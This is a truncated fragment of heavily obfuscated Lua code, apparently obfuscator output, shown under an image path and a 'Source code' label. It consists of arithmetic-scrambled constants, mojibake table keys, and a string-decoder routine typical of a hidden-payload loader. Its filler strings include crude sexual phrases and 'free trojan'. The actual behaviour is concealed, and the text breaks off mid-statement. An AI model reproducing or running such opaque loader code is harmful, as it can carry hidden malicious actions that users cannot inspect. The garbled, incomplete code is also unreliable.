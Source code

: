 ,nil,nil;(function() _msec=(function(e,l,o)local Q=l["Ù¼ÙƒØ­Ø¢Ø²Ù¼Ø­Ø¶Ù†Ø²Ø³Ùƒ"];local J=o[e[(0x17327/155)]][e["Ø²Ø¬Ø¯Ø¯Ø ØƒØ³Ù†ØƒØ¶Ø²Ù¼Ø²ØƒØ¶Ø³"]];local M=(0x98/38)/(-#[[I like gargling cum]]+(1155/((((-0x1e+7393)+-#"This is working now")/0x6c)+-#'me big peepee')))local h=((((233-0x84)+-#"no thanks")-57)+-33)-((1060/0x6a)+-#'no thanks')local v=o[e[((0x150-204)+-#[[I like gargling cum]])]][e["ÚØ¶Ù‚Ø Ø³ØƒØ­Ø¶Ø¢Ù†Ø²ØƒØ¯Ø²Ø³Ù‚Ø¶"]];local N=((0x348/((0x2a69/77)+-0x39))+-#[[no thanks]])+(23-0x15)local s=o[e[(-0x50+616)]][e["Ø²Ø¯Ø¢Ø²ØƒÚªØ¶ÙƒØ Ø Ù‚ÚªØ¶Ø¯Ø³"]]local n=(-#[[me big peepee]]+(-0x17+38))-(89-(((-#"no thanks"+(0x1af-258))+-0x39)+-#"I like gargling cum"))local P=((0x83-((((-#"test 123"+(0x27e24-81708))/252)+-#'Bong')-212))+-#[[This is working now]])local p=(-#'free trojan'+(143-(-#"Bong"+(0x17f-(0x210-(571-0x126))))))local C=(((0xc6309/((((1015-0x224)+-#[[test]])-0x116)+-#'Bong'))/0xc3)+-#[[I like gargling cum]])local m=((((249-((34999+-0x31)/233))+-#"This is working now")-57)+-#"I like gargling cum")local D=(((0x1bf-((-#{(function()return{','}end)(),(function()return{','}end)();",";",";1;{}}+627)-0x14e))/0x14)+-#'Bong')local _=((-0x6d+(-#"I like gargling cum"+(20449/((-56+0x13)+0xb4))))+-#'free trojan')local x=(((0x17ca/(0x105-(-0x7e+317)))-69)+-#"187 ist die gang")local w=(5+-#{26;'}';(function()return#{('bPBLOH'):find("\66")}>0 and 1 or 0 end)})local c=((0x6f+((-29571-(-0x735c0/((140-0x63)+-#"no thanks")))/141))+-#"Bong")local t=((0xb1-(120+-#{{},(function()return#{('MbKbKO'):find("\75")}>0 and 1 or 0 end);'nil','}',(function()return{','}end)(),26;","}))-0x3e)local B=(0x54+(-0xbda/(-#{",";54;{};54;",";'nil';1}+44)))local r=((((((-0xf99d8/104)+-#[[test123]])+4897)/61)+0x57)+-#'test')local b=((119+-#{",";'nil','nil'})-113)local k=((0xc1+(7+((-5456/0x3e)+-#'no thanks')))-0x64)local f=(-#{26,'nil';'nil';(function()return{','}end)();'}',",",'nil'}+10)local U=(0x2f-(((-#'I like gargling cum'+(546040/0x28))/0x60)+-0x62))local O=(0x36-(55+-#{21,{};'}';(function()return{','}end)()}))local g=(0x7c+((((-0x1151a8+-78)+-#"test123")/0x3b)/159))local G=e[(1338+-#{24;'nil';24;1,{},(function()return#{('OFmBFO'):find("\109")}>0 and 1 or 0 end)})];local H=o[e[((0x17d-252)+-#"187 ist die gang")]][e["ÚªÙ‚Ø­Ø¬ÚªØ¯Ø Ú"]];local A=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('Ø¢Ø¦ÚªØ¶Ø²Ø¯Ù¼Ø¯')..'\109\101'..('\116\97'or'Ø²Ø²Ø¶Ø¬Ù‚Ø­Ø­Ùƒ')..e[((92853/0xab)+-#[[test123]])]];local K=o[e[((0x47b-595)+-#[[187 ist die gang]])]][e["ÚÙ¼Ø¬Ø²Ø¢ÚØ­ÙƒØ¬Ø¦"]];local I=(0x116/139)-(((-#'test 123'+(((-0x66f/61)+0x104)-0x7d))-85)+-#"amena jumping")local j=((-24+(((-163+0x46)+143)+-#"free trojan"))+-#'amena jumping')-(90/0x2d)local L=o[e[(-#{1,'}';163;1,(function()return{','}end)();163}+119)]][e["Ø¶ØƒÙƒØ­ÚÚØ¯Ø¬Ø¦Ø¬Ø Ø¶ÚªØ¦ÚªØ¶Ø³"]];local a=function(o,e)return o..e end local T=(-#{31;{};75}+7)*(((-#[[free trojan]]+((349+-0x70)-0x95))+-64)+-#'no thanks')local y=o[e["ÚØ²Ù‚Ø¦ÚªÚØ²ÚØ¬Ù‚ÙƒØ³Ø¶"]];local d=(0x168/180)*(0x153-(((0x101efe/91)/0x36)+-#'test'))local F=(173056/0xa9)*(-#"test123"+(((-0x65+1729)+-62)/174))local z=((((398880/0x3c)+-31)+-#"amena jumping")/0x7f)local S=((((0x3be-511)-0x108)+-68)+-0x71)*(436/0xda)local u=o[e["Ø Ù¼ÚªØ²Ù‚ÚÚªØ­Ø Ø Ù¼Ø¶Ø¦ÚÙƒÙ¼Ù‚Ø¶"]]or o[e[(0x467-591)]][e["Ø Ù¼ÚªØ²Ù‚ÚÚªØ­Ø Ø Ù¼Ø¶Ø¦ÚÙƒÙ¼Ù‚Ø¶"]];local i=(533-((0xda88/(-122+0x137))+-#'I like gargling cum'))local e=o[e["Ù‚Ù‚Ø¬Ø¶ØƒØ²Ø¯Ø¬Ø¢Ù†"]];local K=(function(a)local r,l=2,0x10 local o={j={},v={}}local d=-n local e=l+h while true do o[a:sub(e,(function()e=r+e return e-h end)())]=(function()d=d+n return d end)()if d==(T-n)then d=""l=I break end end local d=#a while
e